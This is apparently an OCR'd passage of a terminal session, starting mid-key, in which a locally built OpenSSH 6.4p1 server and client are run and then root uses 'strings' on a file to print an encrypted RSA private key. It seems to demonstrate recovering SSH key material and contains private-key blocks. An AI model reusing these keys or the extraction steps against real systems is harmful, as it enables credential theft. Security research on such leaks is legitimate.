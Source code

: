 Dy1Odg9bd0TxufdjHPofulQjx2Ir9HhpAVasycyj6YEpe41COcxrTqU5uMjfLtoM

vQn0mGfRxb4gripQ0ImgSXWAhcRAlBCtrUuqadiLVIyRfJM4aEiuHlH2oKWjry0I

1i57M29VfmmNUf68R/AGTypMBVUx6FhV5xOeg4gnbDMIDHQ0e6VK/ZaFwU+xZozy

AHJIzbD27WADJZuj+izRrt+6uF1LgwlFyJkXUjDMUka/VNk3R+fkuB8kvf8ibJIP

gq0Ipn/I9rrymohGVjQjdbPYECy2QMqS3sjhKZsaGcOWNMG2bHO+1HsOJI5cUIZy

P7gOqtWO1V3bABHZJ9SK1yFj46S1dqbAic2We8dKUzRZIIx3hRPDDBp75IyLHnOI

EHkv0nYWg3CFPBaBZucfuEBPBdEUcZfYqWDgN4NNB+I6hUDKJgEi1psEKkmqqxEv

4GKVyhiIqBadZjIlhJc+bqd3za0p0xrk2DjVBR3bBepASkO4YKrzNzrF7TlMllFq

bhGrDsirw1fIP0NSDgREKdPFbRRshFdj9tRvWldq9QW9TFDPbJmzE7SC/56ggdvu

KhTNxTPaEZnck7INzJm/gYQiaZ/aeyJ+G5rNixWAKhRxHsqlWTWf+fySqoTMKClw

dj/pgZtt3oC5TdkO3DPC4/lyXSTa0uYGs1Alyr4FiOcyZ0CkE1ZQPyy1W1IKNlYW

Umvhw2F+y7x+uo/7TRz6ahOeQV9kF5pkEhm0zLE2yYVRzmf08i+rQ+OqjFH76bEb

6bGjd4TCVUIBXv6OpMm8vy/oB/QBxxNRlH5VnAcT+r/gu0tEFdroBkJ5RZEDMC6c

Vp5tZg+C7Cr2pfmoYBVnbIQ7CzlMvHpone9AFNnblL8Fcpwe/SSAcJP/p2TlFvg4

GCs3AYeWCOlRjroKOCjh0ikUcrXR85auPz6CG/hq3LVHyEZ1XfoLty4WOsTXwG5B

xE63YLQgG8oHHJFgtu2W5yHodfPIG1LOeBO5eaqpMj0qSGFdyLXPtT0Dnyc8CPo1

—–END RSA PRIVATE KEY—–

[xxx@test openssh-6.4p1]# /home/xxx/openssh-6.4p1/sshd -o ListenAddress=127.0.0.1:222 -o UsePrivilegeSeparation=no -f /etc/ssh/sshd_config -h /etc/ssh/ssh_host_rsa_key

[xxx@test openssh-6.4p1]$ ./ssh -p222 127.0.0.1

Enter passphrase for key ‘/home/xxx/.ssh/id_rsa':

xxx@127.0.0.1’s password:

[connection suspended, press return to resume][connection resumed]

[63]+  Stopped                 ./ssh -p222 127.0.0.1

[xxx@test openssh-6.4p1]$ sudo -i

[sudo] password for xxx:

[root@test ~]# strings /home/xxx/key

—–BEGIN RSA PRIVATE KEY—–

Proc-Type: 4,ENCRYPTED

DEK-Info: AES-128-CBC,3C261314BCFFF0379DB2CE2E14F2CD42

45Tdi0y20+qovA5xbv957Ip8kwYqc48cjVcgSY4I7x/TDfUe9pziuGYJN1qPwfBJ

rh97z/yRPxGmMHxg+30cZ0tnGuRpKkCs/7fd2dSn19JxXS9+kxsZ2huVKgKigeyC

eu8Lb79Zmynhs1J/roqu2nlF6spCUD+dkmh8AldEw6eDYequv9iFSjVNMIcc9vXw
